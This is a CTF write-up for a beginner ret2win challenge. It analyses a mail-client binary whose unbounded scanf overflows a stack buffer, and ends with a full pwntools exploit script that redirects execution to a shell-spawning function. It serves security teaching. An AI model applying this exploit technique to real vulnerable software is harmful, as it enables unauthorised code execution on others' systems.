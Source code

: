 ```yaml
---
layout: post
author: Jorge Moreno
---
```


## Challenge Description

This challenge is part of an introductory CTF course organized by students of Universidad Rey Juan Carlos.

> ¡Ups! Parece que me he olvidado una opción que no debería aparecer en el programa que he creado como cliente de correo. Menos mal que es super seguro, ¿a que sí?
> 
> 
> Autor: [David Billhardt](https://twitter.com/DavidBillhardt)
> 
> Official Writeup: [AAAA.pdf](images/beginner-bof-wu/AAAA.pdf)
> 

## TL;DR

---

This challenge is an standard ret2win. We overflow the buffer into overriding the RIP and jumping to the win function to spawn a shell.

## Challenge Solution

---

First thing we are going to do is analyze the file with the ``file`` and ``checksec`` commands:

![Untitled](images/beginner-bof-wu/Untitled.png)

![Untitled](images/beginner-bof-wu/Untitled%201.png)

As we can see the only relevant restriction this binary has is the No eXecute bit. Which disallows us to execute any shellcode inside the stack.

After analyzing the different functions the program we see that it is a binary that shows us a menu to log in, print the name of the user, and send a message. After the decompilation we can see 2 important things:

- A function ``rce()`` that spawns a shell

```c
void rce(void){
		system("bin/sh");
		return;
}
```

- And the function ``enviar()`` that sends a message to an specific user

```c
void enviar(void)

{
  undefined message [208];
  undefined name [32];
  
  printf(&DAT_004020e0); // Prompts for the name
  __isoc99_scanf(&%20s,name);
  puts(&DAT_00402108); // Prompts for the message
  __isoc99_scanf("%s",message);
  printf("Mensaje enviado a %s",name);
  return;
}
```

The first ``scanf()`` only receives up to 20 characters, but the second one has no limit so it is vulnerable to **Buffer Overflow**. We are going to test this by sending to the program a bunch of A’s.

![Untitled](images/beginner-bof-wu/Untitled%202.png)

The program crashes because we overflow the buffer up to the RSP so after the ``ret;`` instruction it tries to jump into the address ``0x6161616161616161 (AAAAAAAA)``.

We are going to use pwndbg’s ``cyclic`` command to get the offset and override the first rsp bytes with the address of the ``rce()`` function.

![Untitled](images/beginner-bof-wu/Untitled%203.png)

![Untitled](images/beginner-bof-wu/Untitled%204.png)

Then we need to get the address of the ``rce()`` function. We can do this with pwntools.

![Untitled](images/beginner-bof-wu/Untitled%205.png)

Full script:

```python
#!/usr/bin/python3

from pwn import *

exe = context.binary = ELF(args.EXE or './AAAA', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

offset = 248
rce_addr = exe.symbols.rce
ret = 0x000000000040101a # For stack aligning purposes

io = start()

payload = b"A" * offset
payload += flat(ret)
payload += flat(rce_addr)

io.sendlineafter(b'>', b'3') # Option
io.sendlineafter(b'>', b'a') # Name
io.recvline() # We do this because the prompt has a special character that pwntools doesn't work well with.
io.sendline(payload) # Payload

io.interactive()
```



**FLAG -- HackOn{c0MM0n_ret2wIN_1s_ez}**